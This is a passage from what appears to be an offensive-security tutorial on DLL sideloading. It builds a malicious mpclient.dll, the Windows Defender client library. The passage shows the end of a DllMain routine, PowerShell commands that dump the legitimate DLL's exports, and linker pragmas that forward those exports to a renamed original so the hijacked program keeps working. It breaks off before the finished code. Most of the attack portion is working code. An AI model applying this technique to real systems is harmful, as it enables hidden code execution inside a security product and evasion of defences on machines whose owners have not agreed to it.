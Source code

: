```cpp
	case DLL_THREAD_ATTACH:
		break;
	case DLL_THREAD_DETACH:
		break;
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

### Finding exported functions from the legit DLL

Before we can finalize the malicious DLL, we will need to get a list of exported functions from the existing legitimate DLL on disk and add it to our malicious DLL. In order for the executable to run properly with our sideloaded DLL, we have to add the DLL's exported functions to the malicious DLL to forward these functions to the legit DLL on disk.<br /><br />

Now to get the exported functions from the legitimate DLL **mpclient.dll** at its expected location ([detailed here](https://hijacklibs.net/entries/microsoft/built-in/mpclient.html)), we can use this [PowerShell script](https://gist.github.com/wsummerhill/23c138be8f953155e20c01055d6cf53f) with the following commands:<br />
```powershell
PS> . .\Get-DLL-Exports.ps1
PS> Get-DLL-Exports -DllPath %PROGRAMDATA%\Microsoft\Windows Defender\Platform\%VERSION%\mpclient.dll -ExportsToCpp C:\output\folder\MpClient-exports.txt
```

After executing the PowerShell command, the output file **MpClient-exports.txt** should have all the DLL exports in it as shown below (shortened for brevity):
```cpp
// --> ADD ALL EXPORTS BELOW TO THE TOP OF YOUR .CPP APPLICATION <--
#pragma once
#pragma comment (linker, "/export:MpAddDynamicSignatureFile=MpClient_orig.MpAddDynamicSignatureFile,@43")
#pragma comment (linker, "/export:MpAllocMemory=MpClient_orig.MpAllocMemory,@44")
#pragma comment (linker, "/export:MpAmsiCloseSession=MpClient_orig.MpAmsiCloseSession,@45")
#pragma comment (linker, "/export:MpAmsiNotify=MpClient_orig.MpAmsiNotify,@46")
#pragma comment (linker, "/export:MpAmsiScan=MpClient_orig.MpAmsiScan,@47")
#pragma comment (linker, "/export:MpAsrSetHipsUserExclusion=MpClient_orig.MpAsrSetHipsUserExclusion,@48")
#pragma comment (linker, "/export:MpChangeCapability=MpClient_orig.MpChangeCapability,@49")
#pragma comment (linker, "/export:MpCheckAccessForClipboardOperation=MpClient_orig.MpCheckAccessForClipboardOperation,@50")
#pragma comment (linker, "/export:MpCheckAccessForClipboardOperationEx=MpClient_orig.MpCheckAccessForClipboardOperationEx,@51")
#pragma comment (linker, "/export:MpCheckAccessForClipboardOperationEx2=MpClient_orig.MpCheckAccessForClipboardOperationEx2,@52")
...
```

From the output, can see that **mpclient.dll** has many DLL exports which we can add to the top of our code now, just under the `#inclue` import lines.<br />
Once you add the exports to the DLL code, it should look something like this:
